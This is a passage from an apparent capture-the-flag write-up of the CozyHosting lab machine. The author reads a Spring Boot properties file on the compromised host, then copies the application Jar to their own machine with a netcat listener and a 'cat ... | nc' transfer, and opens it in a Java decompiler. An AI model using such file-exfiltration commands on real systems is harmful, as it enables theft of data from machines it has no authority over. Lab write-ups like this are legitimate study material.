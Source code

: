 

The first line has a `datasource` password, which looks interesting.
I'll inspect that file:



    app@cozyhosting:/dev/shm$ cat BOOT-INF/classes/application.properties 
    server.address=127.0.0.1
    server.servlet.session.timeout=5m
    management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
    management.endpoint.sessions.enabled = true
    spring.datasource.driver-class-name=org.postgresql.Driver
    spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
    spring.jpa.hibernate.ddl-auto=none
    spring.jpa.database=POSTGRESQL
    spring.datasource.platform=postgres
    spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
    spring.datasource.username=postgres



It's the database connection information.

#### jd-gui

I'll start `nc` listening forwarding any output to
`cloudhosting-0.0.1.jar` on my host:



    oxdf@hacky$ nc -lnvp 443 > cloudhosting-0.0.1.jar
    Listening on 0.0.0.0 443



On CozyHosting, I'll send the Jar into `nc` back to my host:



    app@cozyhosting:/dev/shm$ cat cloudhosting-0.0.1.jar | nc 10.10.14.6 443



This hangs, but on my host it shows a connection:



    oxdf@hacky$ nc -lnvp 443 > cloudhosting-0.0.1.jar
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.230 48534



After a few seconds, I'll kill it on my side, and make sure the `md5sum`
of the two files matches.

I'll I'll download the [jd-gui](https://java-decompiler.github.io/) Jar
file and run it with `java -jar jd-gui-1.6.6.jar`, opening the Jar file.
The `htb.cloudhosting.CozyHostingApp` class just starts the Spring Boot
application:
